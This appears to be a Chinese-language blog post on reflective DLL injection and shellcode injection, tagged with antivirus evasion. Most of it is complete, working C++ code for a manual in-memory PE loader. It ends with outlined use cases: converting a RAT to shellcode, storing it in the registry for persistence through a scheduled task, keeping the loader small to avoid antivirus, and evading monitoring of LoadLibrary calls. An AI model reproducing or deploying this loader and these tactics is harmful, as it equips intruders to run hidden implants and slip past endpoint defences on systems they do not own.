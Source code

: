 ```yaml
---
layout: post
title: Reflective Inject
categories: Inject
description: Inject 之 反射注入
keywords: Windows，注入，免杀

---
```


反射注入技术

# Reflective Inject

## 1.DLL 注入

### 原理

- Execution is passed, either via CreateRemoteThread() or a tiny bootstrap shellcode, to the library's ReflectiveLoader function which is an exported function found in the library's export table.
- As the library's image will currently exists in an arbitrary location in memory the ReflectiveLoader will first calculate its own image's current location in memory so as to be able to parse its own headers for use later on.
- The ReflectiveLoader will then parse the host processes kernel32.dll export table in order to calculate the addresses of three functions required by the loader, namely LoadLibraryA, GetProcAddress and VirtualAlloc.
- The ReflectiveLoader will now allocate a continuous region of memory into which it will proceed to load its own image. The location is not important as the loader will correctly relocate the image later on.
- The library's headers and sections are loaded into their new locations in memory.
- The ReflectiveLoader will then process the newly loaded copy of its image's import table, loading any additional library's and resolving their respective imported function addresses.
- The ReflectiveLoader will then process the newly loaded copy of its image's relocation table.
- The ReflectiveLoader will then call its newly loaded image's entry point function, DllMain with DLL_PROCESS_ATTACH. The library has now been successfully loaded into memory.
- Finally the ReflectiveLoader will return execution to the initial bootstrap shellcode which called it, or if it was called via CreateRemoteThread, the thread will terminate.

### 工作流程

1. 将原始 DLL 字节读入内存缓冲区
2. 解析 DLL 头并获取 SizeOfImage
3. 分配新的内存空间 SizeOfImage
4. 将 DLL 头和区段表复制到步骤 3 中分配的内存空间
5. 修复重定位
6. 加载 DLL 导入的库
7. 解析导入表
8. 调用 DLL

### 完整代码

```c++
#include <Windows.h>

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, * PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

using DLLEntry = BOOL(WINAPI*)(HINSTANCE dll, DWORD reason, LPVOID reserved);

int main()
{
	// 获取模块基址
	PVOID imageBase = GetModuleHandleA(NULL);

	// 将 DLL 加载到堆空间中
	HANDLE dll = CreateFileA("\\\\VBOXSVR\\Experiments\\MLLoader\\MLLoader\\x64\\Debug\\dll.dll", GENERIC_READ, NULL, NULL, OPEN_EXISTING, NULL, NULL);
	DWORD64 dllSize = GetFileSize(dll, NULL);
	LPVOID dllBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dllSize);
	DWORD outSize = 0;
	ReadFile(dll, dllBytes, dllSize, &outSize, NULL);

	// 获取指向内存中 DLL 头的指针
	PIMAGE_DOS_HEADER dosHeaders = (PIMAGE_DOS_HEADER)dllBytes;
	PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)dllBytes + dosHeaders->e_lfanew);
	SIZE_T dllImageSize = ntHeaders->OptionalHeader.SizeOfImage;

	// 为 DLL 分配新的内存空间
	LPVOID dllBase = VirtualAlloc((LPVOID)ntHeaders->OptionalHeader.ImageBase, dllImageSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// 获取下一个模块位置
	DWORD_PTR deltaImageBase = (DWORD_PTR)dllBase - (DWORD_PTR)ntHeaders->OptionalHeader.ImageBase;

	// 将 DLL 头复制到为 DLL 新分配的空间中
	std::memcpy(dllBase, dllBytes, ntHeaders->OptionalHeader.SizeOfHeaders);

	// 将 DLL 区段表复制到为 DLL 新分配的空间
	PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);
	for (size_t i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++)
	{
		LPVOID sectionDestination = (LPVOID)((DWORD_PTR)dllBase + (DWORD_PTR)section->VirtualAddress);
		LPVOID sectionBytes = (LPVOID)((DWORD_PTR)dllBytes + (DWORD_PTR)section->PointerToRawData);
		std::memcpy(sectionDestination, sectionBytes, section->SizeOfRawData);
		section++;
	}

	// 修复重定位
	IMAGE_DATA_DIRECTORY relocations = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	DWORD_PTR relocationTable = relocations.VirtualAddress + (DWORD_PTR)dllBase;
	DWORD relocationsProcessed = 0;

	while (relocationsProcessed < relocations.Size)
	{
		PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)(relocationTable + relocationsProcessed);
		relocationsProcessed += sizeof(BASE_RELOCATION_BLOCK);
		DWORD relocationsCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
		PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)(relocationTable + relocationsProcessed);

		for (DWORD i = 0; i < relocationsCount; i++)
		{
			relocationsProcessed += sizeof(BASE_RELOCATION_ENTRY);

			if (relocationEntries[i].Type == 0)
			{
				continue;
			}

			DWORD_PTR relocationRVA = relocationBlock->PageAddress + relocationEntries[i].Offset;
			DWORD_PTR addressToPatch = 0;
			ReadProcessMemory(GetCurrentProcess(), (LPCVOID)((DWORD_PTR)dllBase + relocationRVA), &addressToPatch, sizeof(DWORD_PTR), NULL);
			addressToPatch += deltaImageBase;
			std::memcpy((PVOID)((DWORD_PTR)dllBase + relocationRVA), &addressToPatch, sizeof(DWORD_PTR));
		}
	}

	// 解析导入表
	PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
	IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
	importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress + (DWORD_PTR)dllBase);
	LPCSTR libraryName = "";
	HMODULE library = NULL;

	while (importDescriptor->Name != NULL)
	{
		libraryName = (LPCSTR)importDescriptor->Name + (DWORD_PTR)dllBase;
		library = LoadLibraryA(libraryName);

		if (library)
		{
			PIMAGE_THUNK_DATA thunk = NULL;
			thunk = (PIMAGE_THUNK_DATA)((DWORD_PTR)dllBase + importDescriptor->FirstThunk);

			while (thunk->u1.AddressOfData != NULL)
			{
				if (IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal))
				{
					// IOT 表
					LPCSTR functionOrdinal = (LPCSTR)IMAGE_ORDINAL(thunk->u1.Ordinal);
					thunk->u1.Function = (DWORD_PTR)GetProcAddress(library, functionOrdinal);
				}
				else
				{
					// IAT 表
					PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)dllBase + thunk->u1.AddressOfData);
					DWORD_PTR functionAddress = (DWORD_PTR)GetProcAddress(library, functionName->Name);
					thunk->u1.Function = functionAddress;
				}
				++thunk;
			}
		}

		importDescriptor++;
	}

	// 执行加载的 DLL
	DLLEntry DllEntry = (DLLEntry)((DWORD_PTR)dllBase + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	(*DllEntry)((HINSTANCE)dllBase, DLL_PROCESS_ATTACH, 0);

	CloseHandle(dll);
	HeapFree(GetProcessHeap(), 0, dllBytes);

	return 0;
}
```

参考链接：[反射 DLL 注入](https://github.com/stephenfewer/ReflectiveDLLInjection)

## 2.Shellcode 注入

### 用例 #1 – 隐秘的持久性

- 使用服务器端 Python 代码 (sRDI) 将 RAT 转换为 shellcode
- 将 shellcode 写入注册表
- 设置计划任务以执行基本加载程序 DLL
- Loader 读取 shellcode 并注入（<20 行 C 代码）
- 优点： 您的 RAT 或加载程序都不需要了解 RDI 或使用 RDI 进行编译。装载机可以保持小而简单以避免 AV。

### 用例 #2 – 侧载

- 让 RAT 在内存中运行
- 编写 DLL 以执行额外的功能
- 将 DLL 转换为 shellcode（使用 sRDI）并在本地注入
- 使用 GetProcAddressR 查找导出的函数
- 在不重新加载 DLL 的情况下多次执行附加功能
- 优点： 让您的初始工具更加轻量，并根据需要添加功能。加载一次 DLL 并像使用其他任何内容一样使用它。

### 用例 #3 – 依赖项

- 从磁盘读取现有的合法 API DLL
- 将 DLL 转换为 shellcode（使用 sRDI）并将其加载到内存中
- 使用 GetProcAddress 查找所需的函数
- 优点： 避免使用检测 LoadLibrary 调用的监控工具。在不泄露信息的情况下访问 API 函数。（WinInet、PSAPI、TlHelp32、GdiPlus）

参考链接：[反射 DLL 注入的 Shellcode 实现](https://github.com/monoxgas/sRDI)